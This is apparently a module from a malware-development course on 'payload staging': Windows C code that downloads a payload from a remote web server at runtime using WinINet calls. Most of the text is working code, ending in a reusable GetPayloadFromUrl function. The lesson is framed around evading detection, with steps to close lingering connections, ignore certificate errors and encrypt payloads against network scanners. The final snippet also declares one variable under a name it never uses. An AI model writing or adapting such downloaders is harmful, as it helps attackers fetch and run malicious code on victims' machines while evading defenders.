





Introduction
Throughout the modules thus far, the payload has been consistently stored directly within the binary. This is a fast and commonly used method to fetch the payload. Unfortunately, in some cases where payload size constraints exist, saving the payload inside the code is not a feasible approach. The alternative approach is to host the payload on a web server and fetch it during execution.
Setting Up The Web Server
This module requires a web server to host the payload file. The easiest way is to use Python's HTTP server using the following command:
python -m http.server 8000
Note that the payload file should be hosted in the same directory where this command is executed.

To verify the web server is working, head to http://127.0.0.1:8000 using the browser.

Fetching The Payload
To fetch the payload from the web server, the following Windows APIs will be used:
InternetOpenUrlW.Opening An Internet Session
The first step is to open an internet session handle using InternetOpenW which initializes an application's use of the WinINet functions. All the parameters being passed to the WinAPI are NULL since they are mainly for proxy-related matters. It is worth noting that having the second parameter set to NULL is equivalent to using INTERNET_OPEN_TYPE_PRECONFIG, which specifies that the system's current configuration should be used to determine the proxy settings for the Internet connection.
HINTERNET InternetOpenW(
[in] LPCWSTR lpszAgent, // NULL
[in] DWORD dwAccessType, // NULL or INTERNET_OPEN_TYPE_PRECONFIG
[in] LPCWSTR lpszProxy, // NULL
[in] LPCWSTR lpszProxyBypass, // NULL
[in] DWORD dwFlags // NULL
);Calling the function is shown in the snippet below.
// Opening an internet session handle
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);Opening a Handle To Payload
Moving on to the next WinAPI used, InternetOpenUrlW, where a connection is being established to the payloads's URL.
HINTERNET InternetOpenUrlW(
[in] HINTERNET hInternet, // Handle opened by InternetOpenW
[in] LPCWSTR lpszUrl, // The payload's URL
[in] LPCWSTR lpszHeaders, // NULL
[in] DWORD dwHeadersLength, // NULL
[in] DWORD dwFlags, // INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID
[in] DWORD_PTR dwContext // NULL
);Calling the function is shown in the snippet below. The fifth parameter of the function uses INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID to achieve a higher success rate with the HTTP request in case of an error on the server side. It's possible to use additional flags such as INTERNET_FLAG_IGNORE_CERT_CN_INVALID but that will be left up to the reader. The flags are well explained in Microsoft's documentation.
// Opening a handle to the payload's URL
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);Reading Data
InternetReadFile is the next WinAPI used which will read the payload.
BOOL InternetReadFile(
[in] HINTERNET hFile, // Handle opened by InternetOpenUrlW
[out] LPVOID lpBuffer, // Buffer to store the payload
[in] DWORD dwNumberOfBytesToRead, // The number of bytes to read
[out] LPDWORD lpdwNumberOfBytesRead // Pointer to a variable that receives the number of bytes read
);Before calling the function, a buffer must be allocated to hold the payload. Therefore, LocalAlloc is used to allocate a buffer the same size as the payload, 272 bytes. Once the buffer has been allocated, InternetReadFile can be used to read the payload. The function requires the number of bytes to read which in this case is 272.
pBytes = (PBYTE)LocalAlloc(LPTR, 272);
InternetReadFile(hInternetFile, pBytes, 272, &dwBytesRead)Closing InterntHandle
InternetCloseHandle is used to close an internet handle. This should be called once the payload has been successfully fetched.
BOOL InternetCloseHandle(
[in] HINTERNET hInternet // Handle opened by InternetOpenW & InternetOpenUrlW
);Closing HTTP/S Connections
It's important to be aware that the InternetCloseHandle WinAPI does not close the HTTP/S connection. WinInet tries to reuse connections and therefore although the handle was closed, the connection remains active. Closing the connection is vital to lessen the possibility of detection. For example, a binary was created that fetches a payload from GitHub. The image below shows the binary still connected to GitHub although the binary's execution was completed.

Luckily, the solution is quite simple. All that is required is to tell WinInet to close all the connections using the InternetSetOptionW WinAPI.
BOOL InternetSetOptionW(
[in] HINTERNET hInternet, // NULL
[in] DWORD dwOption, // INTERNET_OPTION_SETTINGS_CHANGED
[in] LPVOID lpBuffer, // NULL
[in] DWORD dwBufferLength // 0
);Calling InternetSetOptionW with the INTERNET_OPTION_SETTINGS_CHANGED flag will cause the system to update the cached version of its internet settings and thus resulting in the connections saved by WinInet being closed.
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);Payload Staging - Code Snippet
GetPayloadFromUrl is a function that uses the previously discussed steps to fetch the payload from a remote server and stores it in a buffer.
BOOL GetPayloadFromUrl() {
HINTERNET hInternet = NULL,
hInternetFile = NULL;
PBYTE pBytes = NULL;
DWORD dwBytesRead = NULL;
// Opening an internet session handle
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
if (hInternet == NULL) {
printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Opening a handle to the payload's URL
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
if (hInternetFile == NULL) {
printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Allocating a buffer for the payload
pBytes = (PBYTE)LocalAlloc(LPTR, 272);
// Reading the payload
if (!InternetReadFile(hInternetFile, pBytes, 272, &dwBytesRead)) {
printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
return FALSE;
}
InternetCloseHandle(hInternet);
InternetCloseHandle(hInternetFile);
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
LocalFree(pBytes);
return TRUE;
}Dynamic Payload Size Allocation
The above implementation works when the payload size is known. When the size is unknown or is larger than the number of bytes specified in InternetReadFile, a heap overflow will occur resulting in the binary crashing.
One way to solve this issue is by placing InternetReadFile inside a while loop and continuously reading a constant value of bytes, which for this example will be 1024 bytes. The bytes are stored directly in a temporary buffer which will be of the same size, 1024. The temporary buffer will be appended to the total bytes buffer which will continuously be reallocated to fit each newly read 1024 byte chunk. Once InternetReadFile reads a value that is less than 1024 then that's the indicator that it has reached the end of the file and will break out of the loop.
Payload Staging With Dynamic Allocation - Code Snippet
BOOL GetPayloadFromUrl() {
HINTERNET hInternet = NULL,
hInternetFile = NULL;
DWORD dwBytesRead = NULL;
SIZE_T sSize = NULL; // Used as the total payload size
PBYTE pBytes = NULL; // Used as the total payload heap buffer
PBYTE pTmpBytes = NULL; // Used as the temp buffer of size 1024 bytes
// Opening an internet session handle
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
if (hInternet == NULL) {
printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Opening a handle to the payload's URL
hInternetFile = InternetOpenUrlW(hInternet, L"http://127.0.0.1:8000/calc.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
if (hInternetFile == NULL) {
printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Allocating 1024 bytes to the temp buffer
pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
if (pTmpBytes == NULL) {
return FALSE;
}
while (TRUE) {
// Reading 1024 bytes to the temp buffer
// InternetReadFile will read less bytes in case the final chunk is less than 1024 bytes
if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Updating the size of the total buffer
sSize += dwBytesRead;
// In case the total buffer is not allocated yet
// then allocate it equal to the size of the bytes read since it may be less than 1024 bytes
if (pBytes == NULL)
pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
else
// Otherwise, reallocate the pBytes to equal to the total size, sSize.
// This is required in order to fit the whole payload
pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);
if (pBytes == NULL) {
return FALSE;
}
// Append the temp buffer to the end of the total buffer
memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
// Clean up the temp buffer
memset(pTmpBytes, '\0', dwBytesRead);
// If less than 1024 bytes were read it means the end of the file was reached
// Therefore exit the loop
if (dwBytesRead < 1024) {
break;
}
// Otherwise, read the next 1024 bytes
}
// Clean up
InternetCloseHandle(hInternet);
InternetCloseHandle(hInternetFile);
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
LocalFree(pTmpBytes);
LocalFree(pBytes);
return TRUE;
}Payload Staging Final - Code Snippet
The GetPayloadFromUrl function now takes 3 parameters:
szUrlThe URL of the payload.pPayloadBytes - Returns as the base address of the buffer containing the payload.sPayloadSize - The total size of the payload that was read.The function will also correctly closes the HTTP/S connections once the retrieval of the payload has been completed.
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {
BOOL bSTATE = TRUE;
HINTERNET hInternet = NULL,
hInternetFile = NULL;
DWORD dwBytesRead = NULL;
SIZE_T sSize = NULL;
PBYTE pBytes = NULL,
pTmpByte = NULL;
hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
if (hInternet == NULL){
printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
if (hInternetFile == NULL){
printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
if (pTmpBytes == NULL){
bSTATE = FALSE; goto _EndOfFunction;
}
while (TRUE){
if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
sSize += dwBytesRead;
if (pBytes == NULL)
pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
else
pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);
if (pBytes == NULL) {
bSTATE = FALSE; goto _EndOfFunction;
}
memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
memset(pTmpBytes, '\0', dwBytesRead);
if (dwBytesRead < 1024){
break;
}
}
*pPayloadBytes = pBytes;
*sPayloadSize = sSize;
_EndOfFunction:
if (hInternet)
InternetCloseHandle(hInternet);
if (hInternetFile)
InternetCloseHandle(hInternetFile);
if (hInternet)
InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
if (pTmpBytes)
LocalFree(pTmpBytes);
return bSTATE;
}Implementation Note
In this module, the payload was retrieved from the internet as raw binary data, without any encryption or obfuscation. While this approach may evade basic security measures that analyze the binary code for signs of malicious activity, it'll get flagged by network scanning tools. Therefore, if the payload is not encrypted, packets captured during the transmission may contain identifiable snippets of the payload. This could expose the payload's signature, leading to the implementation process being flagged.
In real-world scenarios, it is always advised to encrypt or obfuscate the payload even if it's fetched at runtime.
Running The Final Binary
The binary successfully fetches the payload.

The connections are closed once execution is completed.
